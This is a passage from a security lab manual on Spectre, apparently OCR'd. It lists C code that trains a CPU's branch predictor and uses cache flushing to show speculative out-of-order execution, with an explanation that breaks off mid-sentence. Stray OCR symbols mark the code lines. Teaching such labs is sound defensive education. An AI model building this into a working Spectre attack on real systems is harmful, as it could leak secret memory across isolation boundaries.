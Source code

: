 #### 4.2 The Experiment

In this task, we use an experiment to observe the effect caused by an out-of-order execution. The code used
in this experiment is shown below. Some of the functions used in the code is the same as that in the previous
tasks, so they will not be repeated.

Listing 3:SpectreExperiment.c

```
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x)
{
if (x < size) { ¿
temp = array[x * 4096 + DELTA]; ¡
}
}

int main()
{
int i;

// FLUSH the probing array
flushSideChannel();

// Train the CPU to take the true branch inside victim()
for (i = 0; i < 10; i++) { ¬
victim(i); √
}

// Exploit the out-of-order execution

_mm_clflush(&size); P
for (i = 0; i < 256; i++)
_mm_clflush(&array[i*4096 + DELTA]);
victim(97); ƒ

// RELOAD the probing array
reloadSideChannel();
return (0);
}
```

For CPUs to perform a speculative execution, they should be able to predict the outcome of the if
condition. CPUs keep a record of the branches taken in the past, and then use these past results to predict
what branch should be taken in a speculative execution. Therefore, if we would like a particular branch to be
taken in a speculative execution, we should train the CPU, so our selected branch can become the prediction
result. The training is done in the `for` loop starting from Line 3. Inside the loop, we invoke `victim()` with a small argument (from 0 to 9). These values are less than the value size, so the true-branch of the
if-condition in Line 1 is always taken. This is the training phase, which essentially trains the CPU to expect
the if-condition to come out to be true.
Once the CPU is trained, we pass a larger value `( 97 )` to the `victim()` function (Line 5). This value